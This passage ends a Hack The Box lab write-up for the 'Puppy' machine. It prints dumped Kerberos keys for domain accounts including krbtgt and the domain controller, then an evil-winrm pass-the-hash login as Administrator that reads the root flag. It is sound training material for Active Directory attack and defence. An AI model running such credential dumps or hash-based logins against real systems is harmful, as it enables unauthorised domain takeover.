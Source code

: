 ```bash
krbtgt:aes128-cts-hmac-sha1-96:60aab26300cc6610a05389181e034851
krbtgt:des-cbc-md5:5876d051f78faeba
PUPPY.HTB\levi.james:aes256-cts-hmac-sha1-96:2aad43325912bdca0c831d3878f399959f7101bcbc411ce204c37d585a6417ec
PUPPY.HTB\levi.james:aes128-cts-hmac-sha1-96:661e02379737be19b5dfbe50d91c4d2f
PUPPY.HTB\levi.james:des-cbc-md5:efa8c2feb5cb6da8
PUPPY.HTB\ant.edwards:aes256-cts-hmac-sha1-96:107f81d00866d69d0ce9fd16925616f6e5389984190191e9cac127e19f9b70fc
PUPPY.HTB\ant.edwards:aes128-cts-hmac-sha1-96:a13be6182dc211e18e4c3d658a872182
PUPPY.HTB\ant.edwards:des-cbc-md5:835826ef57bafbc8
PUPPY.HTB\adam.silver:aes256-cts-hmac-sha1-96:670a9fa0ec042b57b354f0898b3c48a7c79a46cde51c1b3bce9afab118e569e6
PUPPY.HTB\adam.silver:aes128-cts-hmac-sha1-96:5d2351baba71061f5a43951462ffe726
PUPPY.HTB\adam.silver:des-cbc-md5:643d0ba43d54025e
PUPPY.HTB\jamie.williams:aes256-cts-hmac-sha1-96:aeddbae75942e03ac9bfe92a05350718b251924e33c3f59fdc183e5a175f5fb2
PUPPY.HTB\jamie.williams:aes128-cts-hmac-sha1-96:d9ac02e25df9500db67a629c3e5070a4
PUPPY.HTB\jamie.williams:des-cbc-md5:cb5840dc1667b615
PUPPY.HTB\steph.cooper:aes256-cts-hmac-sha1-96:799a0ea110f0ecda2569f6237cabd54e06a748c493568f4940f4c1790a11a6aa
PUPPY.HTB\steph.cooper:aes128-cts-hmac-sha1-96:cdd9ceb5fcd1696ba523306f41a7b93e
PUPPY.HTB\steph.cooper:des-cbc-md5:d35dfda40d38529b
PUPPY.HTB\steph.cooper_adm:aes256-cts-hmac-sha1-96:a3b657486c089233675e53e7e498c213dc5872d79468fff14f9481eccfc05ad9
PUPPY.HTB\steph.cooper_adm:aes128-cts-hmac-sha1-96:c23de8b49b6de2fc5496361e4048cf62
PUPPY.HTB\steph.cooper_adm:des-cbc-md5:6231015d381ab691
DC$:aes256-cts-hmac-sha1-96:f4f395e28f0933cac28e02947bc68ee11b744ee32b6452dbf795d9ec85ebda45
DC$:aes128-cts-hmac-sha1-96:4d596c7c83be8cd71563307e496d8c30
DC$:des-cbc-md5:7f044607a8dc9710
```

We have the NTLM hash of the Administrator. We are done here we can go and connect  with the hash using evil-winrm .

```bash
└─$ evil-winrm -i 10.10.11.70 -u Administrator -H bb0edc15e49ceb4120c7bd7e6e65d75b           
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> dir

    Directory: C:\Users\Administrator\Documents

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          3/9/2025   8:25 PM                CLNP

cd ..
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
0aa578ded5a96f81e97c8d4eea38df50
```

Puppy machine pwneed !!!!! It was a great machine to be honest and i learned too much from it.
